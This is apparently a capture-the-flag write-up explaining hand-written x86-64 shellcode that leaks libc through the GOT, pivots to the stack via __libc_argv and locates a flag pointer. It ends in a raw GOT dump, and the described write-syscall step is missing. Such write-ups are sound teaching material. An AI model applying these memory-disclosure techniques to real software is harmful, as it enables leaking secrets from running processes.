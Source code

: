 This symbol points to the current working directory string, which is near the base of the stack.

My idea was to leak the libc base from the GOT, then pivot to the stack via this symbol, and then climb the stack until i got to `main()`'s frame, and then move onto the pointer to the flag, and print it.
I implemented this in assembly by hand, which was really fun.

Here's the step by step reasoning of my shellcode. If a string like `{something}` is in the assembly, it's because i used python and pwntools to "hydrate" the assembly with the data i needed.

First, i read a GOT entry which points to a libc function, and subtract its offset to get the base of the library:

```assembly
mov rax, {exe.got['printf']};
mov rax, [rax];
sub rax, {libc.sym['printf']};
```

Then, i move onto `__libc_argv`, and pivot to the stack. This symbol is a pointer to a pointer to a string, so it has to be dereferenced twice; i also have to align myself on the stack.

```assembly
add rax, {libc.sym['__libc_argv']};
mov rax, [rax];
mov rax, [rax];
xor al, al;
```

Then, i climb the stack until i find a cell containing the address of the `main()` function:

```assembly
loop_body:
	mov rdx, [rax];

	/* equivalent to:
	if ($rdx == {exe.sym['main']}) {
		goto loop_exit;
	} else {
		goto loop_body;
	}
	*/

	cmp rdx, {exe.sym['main']};
	je loop_exit;
	sub rax, 8;
	jmp loop_body;

loop_exit:
```

Then, i move onto the flag pointer via a constant offset that i got from gdb:

```assembly
sub rax, 96;
```

And then i print it via a write syscall:


[  0]:        0x7f03c9d06dc0    __libc_start_main
[  1]:                   0x0    __gmon_start__
[  2]:              0x403e10    UNKNOWN
[  3]:        0x7f03c9f642e0    UNKNOWN
[  4]:        0x7f03c9f3ec60    UNKNOWN
[  5]:        0x7f03c9f123d0    seccomp_init
[  6]:        0x7f03c9f137f0    seccomp_rule_add
[  7]:        0x7f03c9f12c40    seccomp_load
[  8]:        0x7f03c9dfbbc0    mmap
[  9]:        0x7f03c9d65060    setbuf
[ 10]:              0x401080    errx
[ 11]:        0x7f03c9d3d770    printf
[ 12]:        0x7f03c9df2100    close
[ 13]:        0x7f03c9df1980    read
[ 14]:        0x7f03c9df1690    open